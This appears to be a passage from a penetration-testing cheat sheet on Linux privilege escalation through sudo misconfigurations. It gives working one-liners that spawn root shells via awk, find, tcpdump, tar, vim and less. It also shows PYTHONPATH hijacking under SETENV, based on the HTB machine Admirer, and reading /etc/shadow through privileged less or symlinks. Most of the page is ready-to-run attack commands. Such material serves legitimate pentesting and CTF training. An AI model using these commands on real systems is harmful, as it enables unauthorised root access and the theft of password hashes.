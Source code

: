```bash
sudo awk 'BEGIN {system("/bin/sh")}'
sudo find /etc -exec sh -i \;
sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
sudo tar c a.tar -I ./runme.sh a
ftp>!/bin/sh
less>! <shell_comand>
```

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.

```
$ sudo -l
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```
sudo vim -c '!sh'
```

### SETENV

This directive allows the user to **set an environment variable** while executing something:

```bash
$ sudo -l
User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

This example, **based on HTB machine Admirer**, was **vulnerable** to **PYTHONPATH hijacking** in order to load an arbitrary python library while executing the script as root:

```bash
sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
```

### Sudo execution bypassing paths

**Jump** to read other files or use **symlinks**. For example in sudeores file: _hacker10 ALL= (root) /bin/less /var/log/\*_

```bash
sudo less /var/logs/anything
less>:e /etc/shadow #Jump to read other files using privileged less
```

```bash
ln /etc/shadow /var/log/new
sudo less /var/log/new #Use symlinks to read any file
```
